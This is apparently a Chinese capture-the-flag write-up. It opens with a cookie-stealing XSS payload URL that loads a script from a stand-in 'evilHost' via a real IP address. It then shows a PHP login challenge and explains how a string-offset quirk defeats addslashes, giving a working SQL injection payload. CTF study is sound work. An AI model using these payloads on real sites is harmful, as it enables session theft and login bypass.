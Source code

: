 xssme:
`http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/getmycookie.php?url=http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/?errmsg=asd%253Cscript%2520src=%2527http:\x2f\x2fevilHost\x2fxss.js%2527%253E%253C\x2fscript%253E%26t=1%26debug=%2527;var%2520type;%2527`

# 32. confused question 200

```php

<?php
session_start();
require('./db/db.php');
function addslashesForEvery($array){
	if(!is_array($array)){return addslashes($array);}
	foreach($array as $key => $val){
		$array[$key] = addslashes($val);
	}
	return $array;
}
$loginStr = $_GET['loginstr'];
if(!isset($_SESSION['admin'])){$loginStr = str_ireplace('admin','guest',$loginStr);}//前台不是admin
parse_str($loginStr,$loginStr);
foreach($loginStr as $n => $v){
	$v = addslashesForEvery($v);
	if($n === 'admin'){
		$username = $v['username'];
		$password = addslashesForEvery($_POST['password']);
		$sql = "select * from admin where username = '$username' and password = '$password'";
		$result = $DB->query($sql);
		if($result){$_SESSION['adminlogin'] = 1; echo "hctf{xxxxxxxx}";}
		break;
	}
	if($n === 'guest'){
		echo "Hello Guest!But you cannot log in!";
		break;
	}
	echo "null";
	break;
}

?>
```

这个没什么好说的，本地改下php跑跑试下就出来了...php的某些坑, 没有对应offset时出现的古怪行为...     
从效果上说，跟dz7.2那个洞有点像...

直接扔payload吧
```
?loginstr[admin]=%27&password=+union_select+1,1+--
````

本地测试代码添加的片段：
```php
$username = $v['username'];
var_dump($username, $v);
// 输出 Warning: Illegal string offset 'username' in D:\Winginx\home\localhost\y.php on line 58  string(1) "\" string(2) "\'"
```

在payload下sql语句变成
`string(78) "select * from admin where username = '\' and password = ' union_select 1,1 --'" `